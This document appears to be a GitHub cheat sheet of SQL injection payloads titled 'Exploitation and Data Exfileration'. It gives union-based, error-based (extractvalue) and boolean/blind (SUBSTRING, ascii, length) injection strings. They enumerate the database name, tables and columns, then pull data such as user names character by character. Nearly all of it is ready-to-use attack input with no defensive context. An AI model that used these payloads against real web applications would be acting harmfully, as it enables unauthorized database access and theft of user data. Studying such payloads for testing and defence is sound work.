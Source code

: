 # Exploitation and Data Exfileration

 # UNION BASED

Database Name
```
UNION SELECT 1,database(),3,4,5,6,7,8,9,10,11
```
Table Name
```
UNION SELECT 1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 0,1),3,4,5,6,7,8,9,10,11
```

Column name
```
UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='carts' limit 1,1),3,4,5,6,7,8,9,10,11

UNION SELECT 1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1),3,4,5,6,7,8,9,10,11
```

# ERROR BASED

Database Name
```
extractvalue(rand(),concat(1,(database())))
```
Table Name
```
extractvalue(rand(),concat(1,(SELECT table_name FROM information_schema.tables WHERE table_schema=database() limit 1,1)))
```
Column Name 
```
extractvalue(rand(),concat(1,(SELECT column_name FROM information_schema.columns WHERE table_name='cedveladi' limit 1,1)))
```

# BOOLEAN BASED

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND SUBSTRING(database(),1,1)='b'
```

Table Name
```
AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 1,1),1,1)='c'
```
Column Name 
```
AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='cedvelinadi' LIMIT 1,1),1,1)='c'
```
Data
```
AND SUBSTRING((SELECT uname FROM users LIMIT 0,1),1,1)='t'
```
Speed up ....
![68747470733a2f2f7777772e61736369697461626c652e636f6d2f617363696966756c6c2e676966](https://github.com/azar-malikov/SQLi_cheatsheet/assets/103067933/5be75e82-2665-470f-9266-0983ae02ab31)

Database Name size enumeration
```
AND (length(database())) = 15 --+
```

Database Name
```
AND (ascii(substr((select database()),1,1))) > 110 --+
```

Table Name Size
```
AND (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))) = 4 --+
```

Table Name
```
AND (ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1) ,1,1))) > 108 --+
```

Column Name Size

```
AND (length((select column_name from information_schema.columns where table_name='cedvelinadi' limit 0,1))) = 4 --+
```

Column Name 
```
AND (ascii(substr((select column_name from information_schema.columns where table_name='cedvelinadi' limit 4,1) ,1,1))) > 114 --+
```
Data size
```
AND (length((select sutununadi from cedvelinadi limit 0,1))) = 6 --+
```
Data
```
AND (ascii(substr((select sutununadi from cedvelinadi limit 3,1) ,1,1))) > 114 --+
```

